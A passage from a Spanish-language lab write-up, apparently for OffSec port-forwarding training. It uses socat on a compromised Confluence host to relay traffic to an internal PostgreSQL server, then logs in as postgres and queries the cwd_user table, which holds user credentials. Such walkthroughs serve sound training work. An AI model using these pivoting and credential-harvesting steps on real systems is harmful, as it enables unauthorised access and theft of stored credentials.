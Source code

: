 -   **Escucha en el puerto 2345 de `confluence01`**
-   **Reenvía las conexiones entrantes hacia `10.4.247.215` en el puerto 5432 (PostgreSQL)**
-   **Usa `fork` para manejar múltiples conexiones simultáneamente**

Básicamente, convierte a `confluence01` en un proxy para acceder a PostgreSQL en `10.4.247.215`.
```
confluence@confluence01:/opt/atlassian/confluence/bin$ socat -ddd TCP-LISTEN:2345,fork TCP:10.4.247.215:5432
<cat -ddd TCP-LISTEN:2345,fork TCP:10.4.247.215:5432   
2025/03/18 23:01:36 socat[3162] I socat by Gerhard Rieger and contributors - see www.dest-unreach.org
2025/03/18 23:01:36 socat[3162] I This product includes software developed by the OpenSSL Project for use in the OpenSSL Toolkit. (http://www.openssl.org/)
2025/03/18 23:01:36 socat[3162] I This product includes software written by Tim Hudson (tjh@cryptsoft.com)
2025/03/18 23:01:36 socat[3162] I setting option "fork" to 1
2025/03/18 23:01:36 socat[3162] I socket(2, 1, 6) -> 5
2025/03/18 23:01:36 socat[3162] I starting accept loop
2025/03/18 23:01:36 socat[3162] N listening on AF=2 0.0.0.0:2345
```
3. Una vez eso este corriendo ejecutamos desde kali para conectarnos:
```
┌──(root㉿kali)-[/home/kali/OffSec/19-PortForwarding-SSHTunneling]
└─# psql -h 192.168.247.63 -p 2345 -U postgres
Password for user postgres: 
psql (17.4 (Debian 17.4-1), server 12.12 (Ubuntu 12.12-0ubuntu0.20.04.1))
SSL connection (protocol: TLSv1.3, cipher: TLS_AES_256_GCM_SHA384, compression: off, ALPN: none)
Type "help" for help.

postgres=# 
```
#### Paso 5: Obtenemos el flag:
1. Dentro de la base de datos enumeramos lo que tenemos:
```
postgres=# \l

List of databases
Name | Owner | Encoding | Collate | Ctype | Access privileges

------------+----------+----------+-------------+-------------+-----------------------

confluence | postgres | UTF8 | en_US.UTF-8 | en_US.UTF-8 |
postgres | postgres | UTF8 | en_US.UTF-8 | en_US.UTF-8 |
template0 | postgres | UTF8 | en_US.UTF-8 | en_US.UTF-8 | =c/postgres +
| | | | | postgres=CTc/postgres
template1 | postgres | UTF8 | en_US.UTF-8 | en_US.UTF-8 | =c/postgres +
| | | | | postgres=CTc/postgres
(4 rows)
``` 
2. Seleccionamos la base de datos:
```
postgres=# \c confluence
psql (14.2 (Debian 14.2-1+b3), server 12.11 (Ubuntu 12.11-0ubuntu0.20.04.1))
SSL connection (protocol: TLSv1.3, cipher: TLS_AES_256_GCM_SHA384, bits: 256, compression: off)
You are now connected to database "confluence" as user "postgres".
confluence=#
```    
3. Seleccionamos todo de la tabla _cwd_user_  
```
confluence=# select * from cwd_user;
   id   |   user_name    | lower_user_name | active |      created_date       |      updated_date       | first_name | lower_first_name |   last_name   | lower_last_name |      display_name      |   lower_display_name   |           email_address            |        lower_email_address         |             external_id              | directory_id |                                credential                                 
```